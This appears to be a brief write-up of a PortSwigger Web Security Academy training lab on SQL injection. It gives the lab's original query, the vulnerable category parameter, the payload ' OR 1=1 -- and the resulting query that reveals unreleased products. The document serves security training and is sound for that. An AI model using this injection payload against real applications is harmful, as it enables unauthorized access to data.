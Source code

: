 #  Lab details:

**Platform**: PortSwigger Web Security Academy  
**Category**: [SQL Injection]  
**Lab Link**: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data]  
**Difficulty**: [Apprentice]

---

## 🎯 Objective

perform a SQL injection attack that causes the application to display one or more unreleased products.

---

## 🧠 Original SQL Query 


SELECT * FROM products WHERE category = 'Gifts' AND released = 1

---

## 💣 Injection Point

Parameter  : `category`
Method     : GET or POST
Location   : URL / Form / JSON / Cookie

---

## 🧪 Payload Used

' OR 1=1 --

---

## ✅ Resulting SQL Query

SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1





